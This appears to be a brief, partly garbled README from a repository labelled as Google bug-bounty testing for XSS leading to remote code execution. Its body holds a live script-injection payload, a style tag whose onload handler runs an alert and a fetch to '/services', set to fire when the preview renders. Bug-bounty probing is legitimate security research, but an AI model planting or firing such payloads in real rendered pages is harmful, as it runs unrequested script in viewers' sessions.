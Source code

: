 # Google VRP testing
testing for XSS to RCE 
## Getting Started
just l the preview for this 
<style onload="{alert('are you ready for this');fetch('/services')}">
